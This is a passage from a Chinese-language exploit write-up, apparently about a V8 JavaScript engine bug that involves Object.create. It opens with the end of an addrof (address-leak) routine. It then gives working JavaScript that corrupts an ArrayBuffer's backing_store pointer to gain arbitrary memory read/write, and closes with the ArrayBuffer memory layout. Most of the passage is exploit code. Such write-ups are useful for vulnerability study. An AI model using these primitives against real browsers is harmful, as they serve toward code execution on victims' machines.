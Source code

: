 ```javascript
        if (res !== 13.37) {
            // Adjust for the LSB being set due to pointer tagging.
            return res;
        }
    }

    throw "Addrof failed";
}
```

之所以可以这样是因为在同一次执行中，相同属性构造的`Object`，在`DictionaryProperties`中的偏移是相同的[2]

### arbitrary read/write

上面我们可以泄露地址了，现在我们需要一个能任意地址读写的构造，最简单就是让一个ArrayBuffer（记为ab1）的backing_store指向另一个ArrayBuffer（记为ab2），这样就能操作ab1来修改ab2的backing_store来实现任意地址读写

```javascript
// Corrupt the backingStore pointer of an ArrayBuffer object and return the
// original address so the ArrayBuffer can later be repaired.
function corrupt(victim, newValue) {
    eval(`
        function hax(o) {
            o.inline;
            this.Object.create(o);
            let orig = o.p${p1}.x2;
            o.p${p1}.x2 = ${newValue.toNumber()};
            return orig;
        }
    `);

    let propertyValues = [];
    // x2 overlaps with the backingStore pointer of the ArrayBuffer.
    let o = {x1: 13.37, x2: 13.38};
    propertyValues[p1] = o;
    propertyValues[p2] = victim;

    for (let i = 0; i < MAX_ITERATIONS; i++) {
        o.x2 = 13.38;
        let r = hax(makeObj(propertyValues));
        if (r !== 13.38) {
            return r.toBigInt();
        }
    }

    throw "CorruptArrayBuffer failed";
}
```

因为ArrayBuffer的内存布局是这样的：

```cpp
offset:
0 : Map
1 : properties
2 : elements
3 : byteLength
4 : backing_store
// ......  //
```
